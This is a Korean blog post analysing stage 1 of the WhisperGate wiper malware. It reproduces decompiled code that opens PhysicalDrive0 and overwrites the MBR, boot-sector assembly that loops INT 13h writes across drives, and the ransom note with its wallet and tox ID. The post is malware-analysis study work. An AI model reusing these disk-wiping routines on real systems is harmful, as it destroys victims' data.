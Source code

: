 <!--
---
layout: post
title:  "whispergate analysis 01"
date:   2022-02-08 22:25:36 +0900
categories: Mal Rev
---
## 0. 요약

stage1: 복구 불가능한 MBR overwrite

- 복구 불가능한 이유? 잘 모르겠음

## 1. 동적분석

~ing

## 2. 정적분석

### stage1

disassembler로 ghidra 사용하였다.

- Anti-Debugging
    
    ```cpp
    void FUN_004011b0(void)
    
    {
      code *pcVar1;
      int *piVar2;
      UINT uExitCode;
      
    	tls_callback_0(0,2);
      SetUnhandledExceptionFilter((LPTOP_LEVEL_EXCEPTION_FILTER)&LAB_00401000);
      FUN_00401800();
      FUN_00402010(DAT_00406024);
      FUN_00401460();
      pcVar1 = _iob_exref;
      if (DAT_00409020 != 0) {
        DAT_00406028 = DAT_00409020;
        _setmode(*(int *)(_iob_exref + 0x10),DAT_00409020);
        _setmode(*(int *)(pcVar1 + 0x30),DAT_00409020);
        _setmode(*(int *)(pcVar1 + 0x50),DAT_00409020);
      }
      piVar2 = (int *)__p__fmode();
      *piVar2 = DAT_00406028;
      FUN_00401e10();
      FUN_00401990();
      __p__environ();
      uExitCode = FUN_00403b60((char)DAT_00409004);
      _cexit();
                        /* WARNING: Subroutine does not return */
      ExitProcess(uExitCode);
    ```
    
    entry 함수에서 만나는 첫 함수를 타고 들어오면 있는 부분이다.
    
    ```cpp
    undefined4 tls_callback_0(undefined4 param_1,int param_2)
    
    {
      if (_DAT_00409064 != 2) {
        _DAT_00409064 = 2;
      }
      if ((param_2 != 2) && (param_2 == 1)) {
        FUN_00401c30(param_1,1);
      }
      return 1;
    }
    ```
    
    `tls_callback_0` 을 호출할 때 0과 1을 인자로 준다. 일단 뒤의 if 문에서는 절대 걸릴 일이 없다(param_2가 2니까).
    
    `_DAT_00409064` 가 2가 아닌지 확인을 하는데, 얘는 뭘까 일단 악성행위에 크게 중요한 부분은 아닌 것 같으니 넘어간다.
    
    `SetUnhandledExceptionFilter` 으로 검색해보면 anti debugging에 많이 사용되는 함수라고 나온다. 그래서 이 부분은 다 안티 디버깅 용으로 생각하고 넘어간다.
    
    실제 MBR 덮어쓰는 함수는 `FUN_00403b60((char)DAT_00409004)` 이다. (MBR overwirte 하고 나면 프로그램이 끝나는 것)
    
- main 로직 부분
    
    ```cpp
    undefined4 FUN_00403b60(undefined param_1)
    
    {
      int iVar1; 
      uint uVar2;
      HANDLE pvVar3;
      BOOL BVar4;
      int iVar5;
      undefined4 *puVar6;
      undefined4 *puVar7;
      undefined4 local_2020 [2050];
      undefined4 uStackY24;
      LPOVERLAPPED p_Stack4;
      
      uStackY24 = 0x403b7a;
      uVar2 = FUN_00401fe0(4);
      iVar1 = -uVar2;
      *(undefined4 *)((int)&uStackY24 + iVar1) = 0x403b8c;
      FUN_00401990();
      puVar6 = &DAT_00404020;
      puVar7 = local_2020;
      for (iVar5 = 0x800; iVar5 != 0; iVar5 = iVar5 + -1) {
        *puVar7 = *puVar6;
        puVar6 = puVar6 + 1;
        puVar7 = puVar7 + 1;
      }
      *(undefined4 *)(&param_1 + iVar1) = 0;
      *(undefined4 *)(&stack0x00000000 + iVar1) = 0;
      *(undefined4 *)((int)&p_Stack4 + iVar1) = 3;
      *(undefined4 *)(&stack0xfffffff8 + iVar1) = 0;
      *(undefined4 *)(&stack0xfffffff4 + iVar1) = 3;
      *(undefined4 *)(&stack0xfffffff0 + iVar1) = 0x10000000;
      *(wchar_t **)(&stack0xffffffec + iVar1) = L"\\\\.\\PhysicalDrive0";
      *(undefined4 *)((int)&uStackY24 + iVar1) = 0x403bcf;
      pvVar3 = CreateFileW(*(LPCWSTR *)(&stack0xffffffec + iVar1),*(DWORD *)(&stack0xfffffff0 + iVar1),
                           *(DWORD *)(&stack0xfffffff4 + iVar1),
                           *(LPSECURITY_ATTRIBUTES *)(&stack0xfffffff8 + iVar1),
                           *(DWORD *)((int)&p_Stack4 + iVar1),*(DWORD *)(&stack0x00000000 + iVar1),
                           *(HANDLE *)(&param_1 + iVar1));
      *(HANDLE *)(&stack0xffffffec + iVar1) = pvVar3;
      *(undefined4 *)((int)&p_Stack4 + iVar1) = 0;
      *(undefined4 *)(&stack0xfffffff8 + iVar1) = 0;
      *(undefined4 *)(&stack0xfffffff4 + iVar1) = 0x200;
      *(undefined4 **)(&stack0xfffffff0 + iVar1) = local_2020;
      *(undefined4 *)((int)&uStackY24 + iVar1) = 0x403bfe;
      WriteFile(*(HANDLE *)(&stack0xffffffec + iVar1),*(LPCVOID *)(&stack0xfffffff0 + iVar1),
                *(DWORD *)(&stack0xfffffff4 + iVar1),*(LPDWORD *)(&stack0xfffffff8 + iVar1),
                *(LPOVERLAPPED *)((int)&p_Stack4 + iVar1));
      *(HANDLE *)(&stack0xffffffec + iVar1) = pvVar3;
      *(undefined4 *)((int)&uStackY24 + iVar1) = 0x403c09;
      BVar4 = CloseHandle(*(HANDLE *)(&stack0xffffffec + iVar1));
      *(BOOL *)(&stack0xffffffec + iVar1) = BVar4;
      return 0;
    }
    ```
    
    `CreateFileW` 함수를 이용하여 MBR을 포함하고 있는 `PhysicalDrive0` 를 열어서 핸들을 얻어온다. `CreateFilew` 에서는 크게 볼건 없고 MBR을 포함하고 있는 `PhsycialDrive0` 의 핸들을 얻어오는 것이 중요하다. 
    
    ```cpp
    				00403b7a be 20 40        MOV        ESI,DAT_00404020                                 = C88C00EBh
                     40 00
            00403b7f 29 c4           SUB        ESP,EAX
            00403b81 8d bd e8        LEA        EDI=>local_2020,[EBP + 0xffffdfe8]
                     df ff ff
            00403b87 e8 04 de        CALL       FUN_00401990                                     undefined FUN_00401990(void)
                     ff ff
            00403b8c b9 00 08        MOV        ECX,0x800
                     00 00
            00403b91 f3 a5           MOVSD.REP  ES:EDI,ESI=>DAT_00404020      
                       = C88C00EBh
    				...
    				00403bcf 89 c6           MOV        ESI,EAX
            00403bd1 8d 85 e8        LEA        EAX=>local_2020,[EBP + 0xffffdfe8]
                     df ff ff
            00403bd7 83 ec 1c        SUB        ESP,0x1c
            00403bda 89 34 24        MOV        dword ptr [ESP],ESI // hFile
            00403bdd c7 44 24        MOV        dword ptr [ESP + 0x10],0x0 // lpOverlapped
                     10 00 00 
                     00 00
            00403be5 c7 44 24        MOV        dword ptr [ESP + 0xc],0x0 // lpNumberOfBytesWritten
                     0c 00 00 
                     00 00
            00403bed c7 44 24        MOV        dword ptr [ESP + 0x8],0x200 // nNumberOfBytesToWrite
                     08 00 02 
                     00 00
            00403bf5 89 44 24 04     MOV        dword ptr [ESP + 0x4],EAX // lpBuffer
            00403bf9 e8 aa fe        CALL       KERNEL32.DLL::WriteFile                          BOOL WriteFile(HANDLE hFile, LPC
                     ff ff
    ```
    
    `writeFile` 을 호출하기 위해 필요한 인자는 차례대로 hFile(write할 대상 핸들), lpBuffer(write 하려는 데이터), nNumberOfBytesToWrite(write 하려는 크기), lpNumberOfBytesWritten(실제 write 한 크기를 받을 주소), lpOverlapped(OVERLAPPED 구조체 주소)이다. (디컴파일 된 순서가 왜저런진 모르겠음)
    
    MBR에 쓰려는 데이터가 `EAX` 에 있는데 어떤 데이터가 있는지 확인하려면 위에서 봐야한다. 
    
    중간쯤에 있는 `movsd.rep` 라는 명령은 `esi` 가 가리키는 값을 `ecx` 만큼 `edi` 에 복사하는 명령어이다. 제일 처음을 보면 `esi` 에 `DAT_00404020` 값이 들어가는걸 확인할 수 있고 해당 데이터는
    
    ```cpp
    00404020 eb 00 8c        undefine
    				 c8 8e d8 
             be 88 7c ...
    004040a8 59 6f 75        ds         "Your hard drive has been corrupted.\r\nIn cas
             72 20 68 
             61 72 64 ...
    ```
    
    생략이 되었지만 MBR에 덮어쓸 데이터임을 알 수 있다. 해당 주소의 데이터 `0x200` 만큼 쓴다는걸 볼 수 있었다. MBR Boot code 만큼 덮어쓰는 것이므로 따로 확인하도록 하겠다.
    
- MBR boot code
    
    ```cpp
    BOOT_SECTOR:7C00 ; =============== S U B R O U T I N E =======================================
    BOOT_SECTOR:7C00
    BOOT_SECTOR:7C00
    BOOT_SECTOR:7C00                 public start
    BOOT_SECTOR:7C00 start           proc near
    BOOT_SECTOR:7C00
    BOOT_SECTOR:7C00 ; FUNCTION CHUNK AT BOOT_SECTOR:7C21 SIZE 00000051 BYTES
    BOOT_SECTOR:7C00
    BOOT_SECTOR:7C00                 jmp     short $+2
    BOOT_SECTOR:7C02 ; ---------------------------------------------------------------------------
    BOOT_SECTOR:7C02 loc_7C02:                               ; CODE XREF: start↑j
    BOOT_SECTOR:7C02                 mov     ax, cs 
    BOOT_SECTOR:7C04                 mov     ds, ax
    BOOT_SECTOR:7C06                 assume ds:BOOT_SECTOR
    BOOT_SECTOR:7C06                 mov     si, 7C88h // 0x7C88: 랜섬 노트
    BOOT_SECTOR:7C09                 call    $+3 // 여기서 바로 아래 실행함
    BOOT_SECTOR:7C0C                 push    ax
    BOOT_SECTOR:7C0D                 cld // 아래 쭉 이어서 실행
    BOOT_SECTOR:7C0E
    BOOT_SECTOR:7C0E loc_7C0E:                               ; CODE XREF: start+18↓j
    BOOT_SECTOR:7C0E                 mov     al, [si] // al = 랜섬 노트
    BOOT_SECTOR:7C10                 cmp     al, 0
    BOOT_SECTOR:7C12                 jz      short loc_7C1A
    BOOT_SECTOR:7C14                 call    sub_7C1C
    BOOT_SECTOR:7C17                 inc     si
    BOOT_SECTOR:7C18                 jmp     short loc_7C0E
    BOOT_SECTOR:7C1A ; ---------------------------------------------------------------------------
    BOOT_SECTOR:7C1A
    BOOT_SECTOR:7C1A loc_7C1A:                               ; CODE XREF: start+12↑j
    BOOT_SECTOR:7C1A                 jmp     short loc_7C21
    BOOT_SECTOR:7C1A start           endp
    BOOT_SECTOR:7C1A
    BOOT_SECTOR:7C1C
    BOOT_SECTOR:7C1C ; =============== S U B R O U T I N E =======================================
    BOOT_SECTOR:7C1C
    BOOT_SECTOR:7C1C
    BOOT_SECTOR:7C1C sub_7C1C        proc near               ; CODE XREF: start+14↑p
    BOOT_SECTOR:7C1C                 mov     ah, 0Eh
    BOOT_SECTOR:7C1E                 int     10h             ; - VIDEO - WRITE CHARACTER AND ADVANCE CURSOR (TTY WRITE)
    BOOT_SECTOR:7C1E                                         ; AL = character, BH = display page (alpha modes)
    BOOT_SECTOR:7C1E                                         ; BL = foreground color (graphics modes)
    BOOT_SECTOR:7C20                 retn
    BOOT_SECTOR:7C20 sub_7C1C        endp
    BOOT_SECTOR:7C20
    ```
    
    `si` 에 `0x7c88` 을 넣는데, 해당 오프셋은 랜섬 노트의 오프셋이다.
    
    ```cpp
    BOOT_SECTOR:7C88 aYourHardDriveH db 'Your hard drive has been corrupted.',0Dh,0Ah
    BOOT_SECTOR:7C88                 db 'In case you want to recover all hard drives',0Dh,0Ah
    BOOT_SECTOR:7C88                 db 'of your organization,',0Dh,0Ah
    BOOT_SECTOR:7C88                 db 'You should pay us  $10k via bitcoin wallet',0Dh,0Ah
    BOOT_SECTOR:7C88                 db '1AVNM68gj6PGPFcJuftKATa4WLnzg8fpfv and send message via',0Dh,0Ah
    BOOT_SECTOR:7C88                 db 'tox ID 8BEDC411012A33BA34F49130D0F186993C6A32DAD8976F6A5D82C1ED23'
    BOOT_SECTOR:7C88                 db '054C057ECED5496F65',0Dh,0Ah
    BOOT_SECTOR:7C88                 db 'with your organization name.',0Dh,0Ah
    BOOT_SECTOR:7C88                 db 'We will contact you to give further instructions.',0
    BOOT_SECTOR:7DFB                 db 3 dup(0), 55h, 0AAh
    ```
    
    ```cpp
    BOOT_SECTOR:7C21 ; ---------------------------------------------------------------------------
    BOOT_SECTOR:7C21 ; START OF FUNCTION CHUNK FOR start
    BOOT_SECTOR:7C21
    BOOT_SECTOR:7C21 loc_7C21:                               ; CODE XREF: start:loc_7C1A↑j
    BOOT_SECTOR:7C21                                         ; start+5B↓j ...
    BOOT_SECTOR:7C21                 mov     ax, cs
    BOOT_SECTOR:7C23                 mov     ds, ax
    BOOT_SECTOR:7C25                 mov     word_7C78, ax 
    BOOT_SECTOR:7C28                 mov     dword ptr word_7C76, 7C82h // 0x7c76: transfer buffer, 0x7c82: AAAAA
    BOOT_SECTOR:7C31                 mov     ah, 43h ; 'C'
    BOOT_SECTOR:7C33                 mov     al, 0
    BOOT_SECTOR:7C35                 mov     dl, byte_7C87 // drive index offset(처음엔 0)
    BOOT_SECTOR:7C39                 add     dl, 80h // drive index(0x80 : C)
    BOOT_SECTOR:7C3C                 mov     si, 7C72h // 0x7c72: DAP
    BOOT_SECTOR:7C3F                 int     13h             ; DISK - IBM/MS Extension - EXTENDED WRITE (DL - drive, AL - verify flag, DS:SI - disk address packet)
    BOOT_SECTOR:7C41                 jb      short loc_7C45 // CF = 1(fail)
    BOOT_SECTOR:7C43                 jnb     short loc_7C5D // CF = 0
    BOOT_SECTOR:7C45
    BOOT_SECTOR:7C45 loc_7C45:                               ; CODE XREF: start+41↑j
    BOOT_SECTOR:7C45                 inc     byte_7C87 // 드라이브 오프셋 +1
    BOOT_SECTOR:7C49                 mov     dword_7C7A, 1 
    BOOT_SECTOR:7C52                 mov     dword_7C7E, 0
    BOOT_SECTOR:7C5B                 jmp     short loc_7C21
    BOOT_SECTOR:7C5D ; ---------------------------------------------------------------------------
    BOOT_SECTOR:7C5D
    BOOT_SECTOR:7C5D loc_7C5D:                               ; CODE XREF: start+43↑j
    BOOT_SECTOR:7C5D                 add     dword_7C7A, 0C7h
    BOOT_SECTOR:7C66                 adc     dword_7C7E, 0
    BOOT_SECTOR:7C6F                 clc // CF = 0
    BOOT_SECTOR:7C70                 jmp     short loc_7C21
    BOOT_SECTOR:7C70 ; END OF FUNCTION CHUNK FOR start
    ```
    
    디스크에 읽기/쓰기를 하기 위해서는 DAP(Disk Address Packet) 구조체가 설정 되어야 한다.
    
    - DAP 구조
        
        해당 악성코드가 디스크 덮어 쓰기를 할 때 사용하는 DAP(Disk Address Packet) 구조는 아래와 같다.
        
        ```cpp
        BOOT_SECTOR:7C70 ; ---------------------------------------------------------------------------
        BOOT_SECTOR:7C72                 db 10h, 0, 1, 0
        BOOT_SECTOR:7C76 word_7C76       dw 0                    ; DATA XREF: start+28↑w
        BOOT_SECTOR:7C78 word_7C78       dw 0                    ; DATA XREF: start+25↑w
        BOOT_SECTOR:7C7A dword_7C7A      dd 1                    ; DATA XREF: start+49↑w
        BOOT_SECTOR:7C7A                                         ; start:loc_7C5D↑w
        BOOT_SECTOR:7C7E dword_7C7E      dd 0                    ; DATA XREF: start+52↑w
        BOOT_SECTOR:7C7E                                         ; start+66↑w
        ```
        
        ```
        Offset	Size	Description
         0	     1	  size of packet (16 bytes)
         1	     1	  always 0
         2     	 2	  number of sectors to transfer (max 127 on some BIOSes)
         4     	 4	  transfer buffer (16 bit segment:16 bit offset) (see note #1)
         8       4	  lower 32-bits of 48-bit starting LBA
        12     	 4	  upper 16-bits of 48-bit starting LBA
        ```
        
    
    (0x7C72) (offset 0 size 1) : size of packet (16 bytes) 
    
    (0x7C73) (offset 1 size 1) : Reserved (always 0)
    
    (0x7C74) (offset 2 size 2) : number of sectors to transfer
    
    (0x7C76) (offset 4 size 4) : transfer buffer (segment:offset)
    
    (0x7C7A) (offset 8 size 4) : lower 32-bits of 48-bit starting LBA
    
    (0x7C7E) (offset 12 size 4) : upper 16-bits of 48-bit starting LBA
    
    위에부터 보면 `0x7c76` 즉 DAP의 `transfer buffer` 에 랜섬노트 내용을 넣는다. `ah` 에는 0x43, `dl` 에는 처음엔 `0x7c87` 이 0이므로 0x80이 들어간다. 마지막으로 `si` 에 DAP 의 주소를 넣고 `int 0x13` 이 실행된다.
    
    `int 0x13` 은 디스크 엑세스 루틴을 제공한다. `ah` 값에 따라 명령이 달라지는데 0x43 은 디스크에 쓰기 권한을 준다. `dl` 은 드라이브를 나타내는데, 처음 드라이브 인덱스 오프셋은 0이며, `0x80` 을 더해준 값이 `dl` 이 된다. 아래의 두 가지 경우에 따라 다른 작업이 수행된다. `0x80` 은 C 드라이브를 나타낸다.
    
    - `loc_7C45`
        
        드라이브 오프셋을 1 증가시켜서 다시 `loc_7C21` 로 돌아가면 다음 드라이브를 확인하도록 한다.
        
        `dword_7C7A` 는 LBA 시작 주소의 하위 4byte, `dword_7C7E` 는 LBA 시작 주소의 상위 2byte이다. 하위 4byte에 1을 쓰고, 상위 2byte에는 0을 쓴다.
        
    - `loc_7C5D`
        
        LBA 시작 주소 하위 4byte에 +0xC7을 하고, 상위 2 byte에는 캐리 비트를 더해준 후에 CF를 0으로 만들어서 다시 `loc_7C21` 로 돌아간다.
        
        MBR은 LBA 0번이고, 처음 탐색한게 LBA 1번이니까 다음에는 LBA 200번에 데이터를 쓰게 된다.
        
        ![Untitled](WhisperGate%20%E1%84%87%E1%85%AE%E1%86%AB%E1%84%89%E1%85%A5%E1%86%A8%20c00d87749bc842ff95b90977af033d11/Untitled.png)
        
        ![Untitled](WhisperGate%20%E1%84%87%E1%85%AE%E1%86%AB%E1%84%89%E1%85%A5%E1%86%A8%20c00d87749bc842ff95b90977af033d11/Untitled%201.png)
        
        한 섹터는 0x200 바이트이고 +199 LBA에 다음 데이터를 쓰니까
        
        0x2B8A00 + (0x200 * 0xC7) = 0x2D1800에 데이터가 씌어진 것을 확인할 수 있음

-->ㅇ
